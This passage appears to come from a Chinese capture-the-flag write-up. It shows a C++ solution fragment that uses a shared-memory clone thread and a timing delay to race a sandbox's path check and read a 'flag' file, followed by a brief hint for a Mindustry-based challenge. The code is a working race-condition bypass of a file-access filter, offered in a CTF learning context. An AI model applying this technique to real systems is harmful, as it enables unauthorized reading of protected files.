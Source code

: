 ```cpp
    char *fslash = (char *) addr + page_size - 1;

    strcpy(((char *) addr) + page_size, "flag");

    void *stack = mmap(nullptr, stack_size, PROT_READ | PROT_WRITE, MAP_ANONYMOUS | MAP_PRIVATE, -1, 0);

    clone(child_main, (char *) stack + stack_size, CLONE_VM | SIGCHLD, fslash);

    // slow down
    for (int i = 0; i < 10000; i++) {
        for (int j = 0; j < 10000; j++);
    }

    int fd = open(fslash, O_RDONLY);

    char flag[64] = {0};
    read(fd, flag, sizeof(flag));
    printf("%s\n", flag);

    wait(nullptr);

    return 0;
}
```

## 异星歧途

观察 + 多试即可，注意顺序避免钍反应堆爆炸

![](images/mindustry.png)

